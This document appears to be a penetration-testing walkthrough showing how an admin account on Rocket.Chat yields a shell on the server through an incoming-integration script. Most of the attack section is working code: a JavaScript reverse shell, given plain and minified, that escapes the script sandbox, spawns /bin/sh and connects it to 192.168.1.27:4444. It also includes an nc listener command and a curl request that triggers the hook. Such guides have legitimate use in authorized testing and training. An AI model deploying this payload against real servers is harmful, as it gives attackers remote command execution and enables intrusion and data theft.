







# Rocket.Chat - Add an integration script

## Requirements

 - Username and password of an admin account

## Exploitation

Once you're connected, you have access to the main dashboard at http://TARGET/channel/general:



### Accessing the admin dashboard

Then you should be able to access the admin dashboard at http://TARGET/admin/info:



### Adding an integration script

Once on the admin dashboard, go to the "Integrations" page at http://TARGET/admin/integrations and create a new integration by clicking on the "+New" button or go at http://TARGET/admin/integrations/new/incoming:



On this new page to create a new integration, we need to fill the "Post as" field with our username, and the "Post to Channel" with the name of a known channel or our username prefixed by `@`. Don't forget to enable the integration by clicking on the enable switch on top of the page (If you forgot to do this you'll get a "Service Unavailable" in response of your POST request):



Once this is done, we need to scroll down the page to the "Script" section, and add a script creating a reverse shell. You can use the following script:

```js
class Script {
  process_incoming_request({ request }) {
    const require = console.log.constructor('return process.mainModule.require')();
    const { execSync } = require('child_process');
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "192.168.1.27", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return {}
  }
}
```

Here is the same script but minified:

```js
class Script{process_incoming_request({request}){const require=console.log.constructor('return process.mainModule.require')();const {execSync}=require('child_process');var n = require("net"),c=require("child_process"),p = c.spawn("/bin/sh",[]);var s = new n.Socket();s.connect(4444,"192.168.1.27",function(){s.pipe(p.stdin);p.stdout.pipe(s);p.stderr.pipe(s);});return {}}}
```

Then enable it by clicking on the enable switch on top of the "Script" textarea and save this integration by clicking on "Save" at the bottom of the page.



### Triggering the integration

Now that the integration script is installed in Rocket.Chat, we need to trigger it with a POST request to a specific endpoint. To get this endpoint or directly the cURL command to access it, go back on the integration you just created and scroll down to the bottom of the page.  



Then we start a listener with `nc -lvnp 4444` in a terminal, and we launch the cURL command in another:

```sh
curl -X POST -H 'Content-Type: application/json' --data '{"text":"Example message"}' http://localhost:13000/hooks/YhhM5pSETkxH5yChf/4PW68bZhXbojY5sreznALpWL8tnYe8g7NtJh4FXqMrYorBkG
```

And we get a reverse shell on the Rocket.Chat server:



## References
 - https://docs.rocket.chat/quick-start/deploying-rocket.chat/rapid-deployment-methods/docker-and-docker-compose/docker-containers/available-images
 - https://hackerone.com/reports/1130721
 - https://blog.sonarsource.com/nosql-injections-in-rocket-chat/